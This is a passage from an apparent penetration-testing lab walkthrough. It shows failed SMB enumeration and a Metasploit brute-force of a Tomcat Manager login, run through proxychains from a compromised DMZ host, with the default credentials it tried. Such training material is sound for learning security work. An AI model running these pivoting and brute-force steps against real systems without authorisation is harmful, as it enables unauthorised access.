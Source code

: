 ```shell-session
[+] Trying protocol 139/SMB...

	[!] Protocol failed: Cannot request session (Called Name:172.16.8.3)

[+] Trying protocol 445/SMB...

	[!] Protocol failed: SAMR SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.

Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 501.

[E] Failed to get password policy with rpcclient

enum4linux complete on Tue Jun 21 21:50:07 2022
```

Unfortunately for us, this is a dead-end.

***

## 172.16.8.50 - Tomcat

Our earlier Nmap scan showed port 8080 open on this host. Browsing to `http://172.16.8.50:8080` shows the latest version of Tomcat 10 installed. Though there are no public exploits for it, we can try to brute-force the Tomcat Manager login as shown in the [Attacking Tomcat](https://academy.hackthebox.com/module/113/section/1211) section of the `Attacking Common Applications` module. We can start another instance of Metasploit using Proxychains by typing `proxychains msfconsole` to be able to pivot through the compromised dmz01 host if we don't have routing set up via a Meterpreter session. We can then use the `auxiliary/scanner/http/tomcat_mgr_login` module to attempt to brute-force the login.

```shell-session
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 172.16.8.50
rhosts => 172.16.8.50
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
stop_on_success => true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK

[!] No active DB -- Credential data will not be saved!
[-] 172.16.8.50:8080 - LOGIN FAILED: admin:admin (Incorrect)
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
[-] 172.16.8.50:8080 - LOGIN FAILED: admin:manager (Incorrect)
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
[-] 172.16.8.50:8080 - LOGIN FAILED: admin:role1 (Incorrect)

<SNIP>

|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
[-] 172.16.8.50:8080 - LOGIN FAILED: tomcat:changethis (Incorrect)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
